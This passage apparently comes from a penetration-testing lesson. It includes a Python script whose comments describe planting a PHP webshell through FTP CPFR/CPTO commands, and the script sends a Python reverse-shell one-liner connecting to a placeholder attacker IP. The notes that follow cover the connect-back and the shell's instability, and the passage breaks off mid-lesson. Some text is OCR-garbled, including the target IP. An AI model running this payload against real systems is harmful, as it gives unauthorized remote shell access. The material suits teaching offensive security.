     ```python
    #!/usr/bin/env python3

    import socket, requests

    # Create a socket object and connect to FTP service
    # With the socket object, send CPFR and CPTO commands to create a PHP webshell.  
    # # Have the webshell read from a GET variable, and send along your reverse shell!

    requests .get("http://192.168.229.le5/rce.php?c=python -c 'import os, socket; s=socket.socket(); s.connect((\"YOUR.ATTACKR.IP.ADDRESS\",9001)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(),2); os.system(\"/bin/sh\")'")
    ```  

* You will see the server connect back!
  * If you use the -v verbose flag on your listener, you will see the connection.  
![ReverseShell](./Files/Images/Lesson12/reverseshell4.png)
  * There won't be a "visible" prompt, but you do have a shell!
* Now, commands can be entered in an interactive way  
![ReverseShell](./Files/Images/Lesson12/reverseshell5.png)
* Some drawbacks:
  * Our reverse shell was set to run `/bin/sh` ...why not use `/bin/bash`?
  * This shell is not very "stable:"
    * Control characters (like ^C to stop a program) could kill the connection.
    * Moving the cursor with left-and-right arrows produces escape
sequences.
    * No Tab auto-completion functionality.
    * No visible prompt
* A quick magic trick helps fix these issues: